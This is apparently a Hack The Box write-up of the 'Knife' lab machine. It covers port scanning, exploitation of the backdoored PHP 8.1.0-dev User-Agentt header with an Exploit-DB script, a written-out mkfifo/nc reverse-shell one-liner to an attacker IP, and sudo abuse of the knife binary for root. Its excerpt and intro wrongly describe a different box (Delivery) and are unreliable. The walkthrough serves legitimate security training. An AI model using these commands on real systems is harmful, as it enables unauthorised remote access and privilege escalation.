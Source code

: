 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Delivery is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell."
date: 23-12-2023
classes: wide
header:
  teaser: /assets/images/htb-writeup-knife/knife_logo.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - PHP
  - Web
  - RCE
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-knife/knife_logo.jpg)


Delivery is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell.


## Portscan

The scan show that we have port 22 and port 80 open with an apache  web server 

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-23 19:04 EST
Nmap scan report for 10.10.10.242
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.23 seconds

                                                        
```

## Website

I found using wappalyzer that the website is using PHP version 8.1.0

![](../assets/images/htb-writeup-knife/web-wappalyzer.png)

I re-checked the headers with burpsuite and discovered that the page was using this specific version PHP 8.1.0-dev. 

![](../assets/images/htb-writeup-knife/web-burpsuite.png)


Doing some research we know that this PHP version was released with a backdoor. This version let you execute code by sending the User-Agentt header. 

![](../assets/images/htb-writeup-knife/web-google.png)

![](../assets/images/htb-writeup-knife/web-exploit-db.png)

## Exploit

Using the script i´ve found in exploitdb i´ve got an non stable shell in the server. 

```
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ ls    
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
```

To get an interactive shell i set up a listener in my machine running on port 4444 and used a reverse shell comand in the server. 

#### Remote shell execution 
```
└─$ python 49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.71 4443 >/tmp/f

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>504 Gateway Timeout</title>
</head><body>
<h1>Gateway Timeout</h1>
<p>The gateway did not receive a timely response
from the upstream server or application.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 10.10.10.242 Port 80</address>
</body></html>
``

#### Listener and user flag
```
└─$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.10.10.242] 38728
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cd /home/james
```
![](../assets/images/htb-writeup-knife/web-user-txt.png)


## Privilege Escalation

A common way to get privileges in a machine is by searching SUID binaries, which can be executed with the privileges of an owner or group, this can help us to get a privileged shell. 
```
james@knife:/$ sudo -l     
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Ive look for the knife binary that we can run it as root and found that can help us to get the root shell.(https://gtfobins.github.io/)


![](../assets/images/htb-writeup-knife/web-gtfobins.png)

And we have the root flag 

![](../assets/images/htb-writeup-knife/web-root-txt.png)